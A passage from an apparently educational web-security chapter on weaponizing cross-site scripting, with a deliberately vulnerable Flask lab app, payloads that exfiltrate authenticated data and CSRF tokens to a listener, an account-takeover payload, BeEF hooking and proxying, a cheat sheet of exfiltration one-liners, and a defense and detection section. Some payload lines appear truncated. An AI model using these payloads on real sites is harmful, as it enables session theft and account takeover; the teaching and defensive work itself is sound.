demonstrate data access — the in-browser session-riding of Part 4, but interactive and driven
through your normal tooling. This is the cleanest way to *demonstrate* the depth of an XSS
without scripting each action by hand.

**Authorized-use boundary:** the tunneling proxy is genuine remote control of someone's browser
session. Use it only against test accounts you control or where the engagement explicitly
authorizes it, keep sessions short, and never pivot into data belonging to real users to "see
how far it goes." Demonstrate reach against your own test data and stop.

## Part 10: Hands-On Lab — Vulnerable App → Exfil → BeEF Hook → ATO

This lab wires everything together end-to-end in a self-contained environment you fully own.
It has three roles: the **vulnerable app** (a tiny Flask site with Stored XSS and a session),
the **attacker listener** (Part 3's Python collector), and **BeEF**. Everything runs on your
own machine or lab VLAN. Do not point any of this at systems you don't own.

### 10.1 Lab topology



### 10.2 The deliberately vulnerable app

```python
# vuln_app.py — INTENTIONALLY VULNERABLE. Lab use only, never expose to a network.
from flask import Flask, request, make_response, redirect
app = Flask(__name__)
COMMENTS = []                        # stored XSS sink
USER = {"email": "victim@lab.local"} # "account" state for the ATO demo

@app.route("/")
def index():
    # NOTE: comments are rendered UNESCAPED — this is the Stored XSS.
    items = "".join(f"<div class='c'>{c}</div>" for c in COMMENTS)
    return f"""<!doctype html><h1>Guestbook</h1>
      <form method=post action=/comment>
        <input name=c placeholder=comment><button>post</button></form>
      <p>Logged in as {USER['email']}</p>{items}"""

@app.route("/comment", methods=["POST"])
def comment():
    COMMENTS.append(request.form.get("c", ""))   # no sanitisation
    return redirect("/")

@app.route("/login")
def login():
    # Auto-"login": issues an HttpOnly session cookie for the demo.
    r = make_response(redirect("/"))
    r.set_cookie("session", "S3SS10N-abc123", httponly=True, samesite="Lax")
    return r

@app.route("/account/change-email", methods=["POST"])
def change_email():
    # State change protected only by a CSRF token that lives in the page.
    if request.form.get("csrf") != "csrf-tok-777":
        return "bad csrf", 403
    USER["email"] = request.form.get("email", USER["email"])
    return "ok"

@app.route("/account/settings")
def settings():
    return f"<input name=csrf value=csrf-tok-777><p>{USER['email']}</p>"

if __name__ == "__main__":
    app.run(port=5000)
```

Start it: `python3 vuln_app.py`, then visit `http://127.0.0.1:5000/login` once to get the
session cookie. This models the modern case: the session cookie is **`HttpOnly`**, so
`document.cookie` won't reveal it — you must ride the session in-browser.

### 10.3 Payload A — read authenticated data through HttpOnly

Post this as a comment (the Stored XSS sink). It reads the account data as the victim and
exfiltrates it, proving `HttpOnly` doesn't stop data theft:

```html
r.text()).then(d=>new Image().src='http://127.0.0.1:8000/c?d='+encodeURIComponent(d))">
```

With the listener from Part 3.2 running on `:8000`, reloading `/` as the logged-in victim
fires the payload. Expected listener output:

```text
[2026-…T…] 127.0.0.1 -> <input name=csrf value=csrf-tok-777><p>victim@lab.local</p>
```

You've exfiltrated the victim's email *and* the CSRF token through an `HttpOnly` cookie without
ever reading the cookie — exactly the Part 4 lesson.

### 10.4 Payload B — one-shot account takeover

Now weaponize the stolen CSRF token into a state change. Post this comment:

```html
r.text()).then(h=>{var t=new DOMParser().parseFromString(h,'text/html').querySelector('[name=csrf]').value;fetch('/account/change-email',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrf='+t+'&email=attacker@evil.local'}).then(()=>new Image().src='http://127.0.0.1:8000/c?d=ATO-done')})">
```

When the victim loads the page, the script scrapes the CSRF token and posts a change-email
request as them. Verify the takeover:

```bash
curl -s http://127.0.0.1:5000/account/settings
# -> <input name=csrf value=csrf-tok-777><p>attacker@evil.local</p>
```

The account email is now attacker-controlled — full ATO from a stored comment, straight through
`HttpOnly` + CSRF token, because XSS made us same-origin.

### 10.5 Payload C — hook the browser into BeEF

Start BeEF (`sudo beef-xss`), note the hook URL, and post the hook as a comment:

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```

Load `/` as the victim. Within ~1–2 seconds the browser appears under **Online Browsers** in
the BeEF panel, tagged with the guestbook's origin. From the **Commands** tab:

1. **Browser → Get Cookie** — returns the non-HttpOnly cookies (here, none of interest, which
   itself demonstrates the `HttpOnly` boundary live in the tool).
2. **Browser → Get Page HTML** — dumps the current DOM, including the logged-in email.
3. **Right-click the zombie → Use as Proxy**, point `curl` at it, and request `/account/settings`
   through the victim to pull the CSRF token interactively:

```bash
curl -s -x http://127.0.0.1:6789 http://127.0.0.1:5000/account/settings
```

That request is executed by the victim's browser, in the victim's session — the tunneling proxy
of Part 9, demonstrated. You now have three independent proofs of impact (data theft, account
takeover, live browser control), all from a single Stored XSS, all against your own lab.

### 10.6 Cleanup

Kill BeEF (`sudo beef-xss-stop`), stop the listener and Flask app, and clear the in-memory
`COMMENTS`/`loot.log`. In a real engagement, the analogous cleanup is: remove any comment/
payload you planted, revert any test-account state you changed (change the email back), and note
in the report exactly what you touched and that it was reverted.

## Part 11: Real-World Impact, Cases & Escalation Paths

XSS weaponization isn't academic — it drives a large share of the highest-value web
disclosures. Understanding the escalation ladder helps you write reports that land at the right
severity.

- **Samy worm (MySpace, 2005)** — the archetypal Stored-XSS weaponization: a self-propagating
  payload that added "Samy is my hero" to over a million profiles in under a day. It combined
  stored XSS with in-browser authenticated requests (the Part 4 technique before it had a name)
  to make each victim's browser re-post the worm. It remains the canonical proof that stored XSS
  + session-riding = worm-scale impact.
- **British Airways / Magecart (2018)** — malicious JavaScript injected into the payment page
  skimmed card details from ~380,000 transactions and exfiltrated them to an attacker host. The
  skimmer was a form-capture keylogger (Part 5.2) at scale, and led to a landmark GDPR penalty.
  It shows the credential/data-capture primitive applied to payment data.
- **Ubiquiti, Shopify, and countless HackerOne reports** — "XSS → account takeover via CSRF-
  token theft and email change" is a repeating pattern in disclosed bounty reports, frequently
  paid at Critical. Reading disclosed HackerOne reports tagged `xss` + `account takeover` is the
  fastest way to internalize how top researchers frame impact.
- **Cookie/token theft in SPAs** — the recurring modern finding: a JWT in `localStorage` plus
  any XSS equals total, silent account theft, which is the core argument against storing bearer
  tokens in web storage.

The escalation ladder to keep in your head:



**CTF relevance:** web CTF challenges frequently gate the flag behind an admin bot that visits
a URL you supply — the intended solution is XSS whose payload exfiltrates the admin's cookie or
performs an admin-only action to your listener (a `requestbin`/`webhook.site` in the CTF, your
own box in practice). The Part 3 exfil primitive and the Part 4 session-riding pattern are the
exact tools those challenges test. picoCTF, PortSwigger's Web Security Academy, and most
"XSS-bot" challenges on CTFtime events follow this shape.

## Part 12: Detection & Defense Angle

Weaponization is only possible because the injected script inherits the origin's trust. Defense
is layered: stop the injection (real fix), and if it slips through, blunt what the payload can
achieve. No single control is sufficient; depth is the point.

**1. Kill the XSS at the source (the only real fix).** Context-aware output encoding, a
framework that escapes by default (React/Angular/Vue auto-escape text), and sink-aware
sanitization (DOMPurify for HTML sinks) remove the injection. Everything below only *reduces the
payoff* of an XSS that still exists — never treat them as substitutes.

**2. `HttpOnly` on session cookies.** Stops `document.cookie` theft (Part 3) cold. It does *not*
stop in-browser session riding (Part 4) — but it eliminates the entire class of "exfil the
cookie and replay from my laptop," which is the easiest and most common attack. Always set it.

**3. `SameSite` cookies.** `SameSite=Lax` (or `Strict`) blocks the cookie on cross-site
requests, defeating classic CSRF. Against *same-origin* XSS it does nothing (the request isn't
cross-site) — so it hardens the CSRF perimeter that XSS is precisely designed to bypass. Still
mandatory, just not an XSS control.

**4. Content-Security-Policy (CSP).** A strict CSP is the strongest *impact-reduction* control.
`script-src` with nonces/hashes and no `unsafe-inline` stops inline payloads and unknown external
scripts (the `hook.js` include fails if BeEF's host isn't allow-listed). `connect-src` restricts
where `fetch`/`sendBeacon`/`XHR` can exfiltrate to; `img-src` restricts the `new Image()` trick;
`form-action` limits where forms submit. A well-scoped CSP can neutralize most exfil and hook
delivery even when an injection exists. Beware permissive sources (`*`, broad CDNs, JSONP
endpoints) that reintroduce bypasses — covered in Chapter 2.

**5. Trusted Types.** `require-trusted-types-for 'script'` forces dangerous DOM sinks to accept
only vetted `TrustedHTML`/`TrustedScript` objects, killing most DOM-XSS sinks that weaponized
payloads rely on to inject further script.

**6. Don't store bearer tokens in `localStorage`.** Prefer `HttpOnly` cookies for session
tokens so XSS can't read them. Web storage tokens are XSS-lootable by design.

**7. Session binding & short lifetimes.** Bind sessions to additional signals (rotate on
privilege change, re-authenticate for sensitive actions like email/password change, step-up
MFA). If changing the email requires re-entering the password or an MFA prompt, the Part 4 ATO
payload stalls even with a valid session. Short session TTLs shrink the replay window for stolen
cookies.

**8. Detection & hunting.** Weaponized XSS leaves traces:

| Signal | Where to look | What it indicates |
|---|---|---|
| CSP violation reports (`report-uri`/`report-to`) | CSP report endpoint | Blocked inline/exfil attempts — a live XSS being probed or fired |
| Outbound requests to unknown hosts from app pages | WAF / egress / RUM logs | Cookie/data exfil (`Image().src`, `sendBeacon` to attacker host) |
| `hook.js` / high-frequency same-path XHR polling | Web proxy / EDR browser telemetry | A BeEF hook beaconing |
| Sudden email/password change without normal UI flow | App audit log | Forged state change via XSS |
| Anomalous `User-Agent`/session used from two IPs | Auth logs | Replayed stolen session |

CSP violation reports are the highest-signal, lowest-noise tripwire — deploy `Content-Security-
Policy-Report-Only` first to learn the baseline, then enforce. **IR use case:** on a suspected
XSS incident, pull egress logs for the app's origin and look for beacon-like requests to
freshly-registered or unusual domains, and grep proxy logs for `hook.js` and tight XHR polling
intervals — both are strong BeEF indicators.

## Part 13: Common Pitfalls & Gotchas

- **Reporting `alert(1)` as the whole finding.** Without a weaponized PoC you leave severity —
  and payout — on the table. Always demonstrate the concrete impact (session, ATO, data).
- **Assuming `HttpOnly` means "no impact."** It only blocks cookie *reads*. In-browser session
  riding (Part 4) sails straight through it. Never downgrade severity on `HttpOnly` alone.
- **Exfiltrating a real user's data to prove the bug.** This is an ethical and often legal line.
  Prove it with *your own* test session/account. One redacted self-owned token is sufficient.
- **Leaving the BeEF default password / exposing the panel.** The BeEF admin panel is itself a
  juicy target; older defaults (`beef:beef`) and an exposed `:3000` are how testers get owned.
- **Forgetting URL-encoding on exfil.** Unencoded cookies with `;`/`=`/`+` corrupt the query
  string and you lose the loot. `encodeURIComponent` every smuggled value.
- **CSP silently blocking your PoC.** If your `hook.js` or exfil "doesn't fire," check the
  console for CSP violations before assuming the XSS is dead — the injection may work while the
  weaponization is blocked, which is itself a finding to report accurately.
- **Persistence expectations with BeEF.** The hook dies when the tab closes. Don't overstate
  persistence in a report; note the session's ephemerality honestly.
- **Mixed-content blocking.** An `https://` app won't load an `http://` BeEF hook or exfil to an
  `http://` listener — the browser blocks mixed content. Serve the hook/listener over TLS to
  match the target.

## Part 14: Final Revision / Summary

- XSS gives you **JavaScript execution in the target's origin** — the weaponization menu
  (Part 1) follows entirely from what that origin can read, write, and request.
- The **session** is the usual prize (Part 2). Where the session secret lives dictates strategy:
  readable cookie/`localStorage` → exfiltrate and replay; `HttpOnly` cookie → ride the session
  in-browser.
- **Exfiltration** (Part 3) is any browser-issued request carrying the secret — `new Image().src`,
  `fetch({keepalive})`, `navigator.sendBeacon` — caught by a tiny listener. Sweep `localStorage`
  too; SPAs hide tokens there.
- **`HttpOnly` is not a fix** (Part 4). You read authenticated data and steal the CSRF token via
  same-origin `fetch`, then forge a state change → **account takeover**, defeating cookie flags
  and CSRF tokens at once because XSS makes you same-origin.
- **Credential harvesting** (Part 5) exploits the *real* origin — fake login overlays and
  capture-phase form/keystroke listeners are more convincing than any lookalike domain.
- The hooked browser is a **network pivot** (Part 6); **BeEF** (Parts 7–9) packages hooking, a
  module catalogue, and a **tunneling proxy** that drives the victim's authenticated session
  from your own tools.
- Defense is **layered** (Part 12): fix the XSS (encoding/sanitization/Trusted Types), then blunt
  payoff with `HttpOnly`, `SameSite`, strict **CSP** (the strongest impact-reducer), token
  storage choices, session binding/step-up auth, and CSP-report + egress-log **detection**.
- Throughout: **authorized scope only, minimum-intrusion proof, your own test accounts.**

## Part 15: Cheat Sheet / Quick Reference

**Exfil primitives**

```javascript
new Image().src='https://x/c?d='+encodeURIComponent(document.cookie);   // GET pixel
navigator.sendBeacon('https://x/c', JSON.stringify({...localStorage}));  // unload-safe
fetch('https://x/c',{method:'POST',mode:'no-cors',keepalive:true,body:document.cookie});
```

**Ride an HttpOnly session (same-origin)**

```javascript
fetch('/api/me',{credentials:'same-origin'}).then(r=>r.text())
  .then(d=>navigator.sendBeacon('https://x/c',d));         // read authed data
```

**Steal CSRF token → forge state change (ATO)**

```javascript
fetch('/account/settings').then(r=>r.text()).then(h=>{
  const t=new DOMParser().parseFromString(h,'text/html').querySelector('[name=csrf_token]').value;
  fetch('/account/change-email',{method:'POST',credentials:'same-origin',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'csrf_token='+encodeURIComponent(t)+'&email=you@evil'});});
```

**BeEF quick reference**

| Action | Command |
|---|---|
| Install | `sudo apt install beef-xss` |
| Start | `sudo beef-xss` |
| Stop | `sudo beef-xss-stop` |
| Panel | `http://127.0.0.1:3000/ui/panel` |
| Hook | `<script src="http://<IP>:3000/hook.js"></script>` |
| Config | `/etc/beef-xss/config.yaml` |
| Tunneling proxy | right-click zombie → *Use as Proxy* → Burp upstream `127.0.0.1:6789` |

**Module colour codes:** 🟢 works+silent · 🟠 works+visible · ⚪ unverified · 🔴 fails.

**Defense one-liners**

| Control | Stops |
|---|---|
| Output encoding / DOMPurify / Trusted Types | the injection itself (real fix) |
| `HttpOnly` | `document.cookie` exfil |
| `SameSite=Lax/Strict` | cross-site CSRF (not same-origin XSS) |
| strict CSP `script-src` nonce, `connect-src`, `img-src` | hook delivery + exfil |
| step-up auth / MFA on sensitive actions | forged ATO state changes |
| CSP `report-uri` + egress monitoring | detection of live exfil/hook |

## Part 16: Practice Labs & Resources

Train each specific skill from this chapter:

- **PortSwigger Web Security Academy — Cross-site scripting → "Exploiting cross-site scripting"
  labs:** *Exploiting XSS to steal cookies*, *Exploiting XSS to capture passwords*, and
  *Exploiting XSS to perform CSRF* map one-to-one onto Parts 3, 5, and 4 respectively. Free, with
  a built-in "exploit server" and victim bot — the best drill for the exfil and ATO primitives.
- **PortSwigger — CSRF labs:** pair with the above to understand why XSS defeats CSRF tokens
  (Part 4.2).
- **TryHackMe — "XSS", "Intro to Cross-site Scripting", and "BeEF" rooms:** the BeEF room walks
  hooking, the command tree, and modules hands-on against provided targets.
- **HackTheBox — retired web machines and the "XSS" Academy module:** several boxes gate progress
  behind stealing an admin cookie via stored XSS against an admin bot — direct practice for
  Part 3 + Part 11's CTF-bot pattern.
- **DVWA / OWASP Juice Shop / bWAPP:** self-hosted vulnerable apps with reflected, stored, and
  DOM XSS challenges — ideal for practicing the full weaponization chain (and the Part 10 lab
  pattern) on something richer than the minimal Flask app.
- **BeEF official wiki (`github.com/beefproject/beef`):** the module reference and configuration
  docs; read the tunneling-proxy and Man-in-the-Browser pages.
- **Disclosed HackerOne reports (filter: `xss` + `account takeover`):** read how top researchers
  narrate impact and write minimum-intrusion PoCs — the single best resource for report craft.

**Practice questions**

1. A target sets its session cookie `HttpOnly; Secure; SameSite=Strict`. You have stored XSS on
   an authenticated page. Explain, with the specific `fetch` calls, how you achieve account
   takeover despite all three flags — and identify the one server-side control that would stop
   your payload.
2. You have reflected XSS but the app enforces `Content-Security-Policy: default-src 'self';
   connect-src 'self'`. Which exfiltration techniques from Part 3 break, which (if any) still
   work, and what CSP source would you look for to smuggle data out?
3. Write a single-line `onerror` payload that hooks the browser into a BeEF instance at
   `10.10.14.7:3000` using a dynamically-created `<script>` element (no direct `<script>` tag),
   and explain when you'd need the dynamic-injection form.
4. Contrast exfiltrating a JWT from `localStorage` versus riding an `HttpOnly` session cookie:
   which is easier to weaponize, which is easier to detect, and what does each imply about token
   storage design?
5. During an authorized test you hook a browser and the tunneling proxy gives you access to the
   victim's authenticated app. Describe the minimum set of actions that convincingly proves
   critical impact *without* touching any real user's data, and what you would write in the
   report's remediation section.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-client-side/03-weaponizing-xss-session-theft-and-the-beef-framework), with comments and the latest edits.*
